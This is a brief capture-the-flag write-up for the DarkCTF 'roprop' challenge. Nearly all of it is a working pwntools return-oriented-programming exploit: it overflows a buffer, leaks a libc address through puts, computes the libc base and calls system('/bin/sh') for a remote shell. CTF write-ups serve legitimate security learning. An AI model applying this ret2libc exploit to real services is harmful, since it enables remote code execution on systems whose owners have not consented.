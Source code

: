 ## DarkCTF: roprop [pwn]
> This is from the back Solar Designer times where you require rope to climb and get anything you want.

#### Typical baby rop pwn challenge for ctf warmups. Resources can be found all througout my previous writeups. Plan is to get some gadgets using ROPgadget, leak some libc addresses, calculate the libc base, execute phase 2, pop the shell. 
```python
from pwn import *

#:
p = remote('roprop.darkarmy.xyz', 5002)
binary = ELF('./roprop', checksec = False)

print(p.recv())
print(p.recv())

ret = 0x0000000000400646
pop_rdi = 0x0000000000400963

exploit = cyclic(88)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(binary.got['gets'])
exploit += p64(binary.symbols['puts'])
exploit += p64(binary.symbols['main'])

p.sendline(exploit)
leak = u64(p.recv().ljust(8, '\x00'))
print('[*] libc leak: {}'.format(hex(leak)))

#:
libc = ELF('libc6_2.27-3ubuntu1.2_amd64.so', checksec = False)
libc.address = leak - libc.symbols['gets']
print('[*] libc base: {}'.format(hex(libc.address)))

exploit = cyclic(88)
exploit += p64(pop_rdi)
exploit += p64(libc.search('/bin/sh').next())
exploit += p64(libc.symbols['system'])
exploit += p64(libc.symbols['exit'])

p.sendline(exploit)
p.interactive()
```
![](roprop_shell.png)